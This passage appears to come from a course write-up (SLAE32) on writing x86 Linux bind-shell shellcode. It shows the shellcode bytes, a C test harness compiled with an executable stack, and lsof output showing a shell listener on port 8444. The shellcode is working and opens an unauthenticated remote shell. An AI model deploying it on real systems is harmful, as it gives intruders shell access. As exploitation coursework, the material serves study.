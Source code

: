 \x5b\x52\x66\x68\x20\xfc\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x04\x5b\x31\xf6
\x56\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x05\x5b\x56\x56\x57\x89\xe1\xcd\x80\x89\xc3\x6a\x02\x59\xb0\x3f
\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

kecebong@ubuntu:~/slae32/assigment/bind/asm$ gcc -fno-stack-protector -z execstack skel.c -o skel
kecebong@ubuntu:~/slae32/assigment/bind/asm$ ./skel
Shellcode Length:  104

────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~/slae32/assigment/bind/asm$ lsof -i :8444
COMMAND  PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
test    9774 kecebong    3u  IPv4 293136      0t0  TCP *:8444 (LISTEN)
{% endhighlight %}

### Demo
![image](/assets/img/assigment1_2.gif)
